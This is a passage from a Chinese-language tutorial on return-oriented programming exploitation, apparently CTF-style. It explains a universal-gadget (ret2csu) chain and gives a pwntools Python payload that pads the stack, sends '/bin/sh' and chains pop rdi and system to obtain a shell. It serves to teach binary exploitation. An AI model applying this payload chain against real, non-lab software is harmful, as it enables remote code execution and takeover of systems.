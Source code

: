 让`rbx=0`是为了使`call qword ptr [r12+rbx*8]`变成`call qword ptr [r12]`从而达到调用后面将地址赋给r12的read函数。使`rbp=1`是为了过掉后面的`jnz short loc_400740`防止jnz再次进行call，从而可能引起段错误。剩下的就是布置read函数的参数即函数本身的地址。

回头看一下universal_gadget2的执行流程，可以发现由于我们的构造，`sub_400740`只会执行一次，然后流程就将跳转到下面的`loc_400756`，这一系列操作将会抬升8*7共56字节的栈空间，因此我们还需要提供56个字节的垃圾数据进行填充，然后才能拼接上retn要跳转的地址(即`start_addr`,我们需要再执行一次输入来读取'bin/sh\x00')

![Alt](img/ROP技术56.png)

```python
  payload += '\x00'*56
  payload += p64(start_addr)
  payload = payload.ljust(200, "B")

  io.send(payload)
  io.recvuntil('bye~\n')
  io.send("/bin/sh\x00")

  payload = "A"*72
  payload += p64(pop_rdi)
  payload += p64(binsh_addr)
  payload += p64(system_addr)
  payload = payload.ljust(200, "B")

  io.send(payload)
  io.interactive()
```

### one gadget RCE
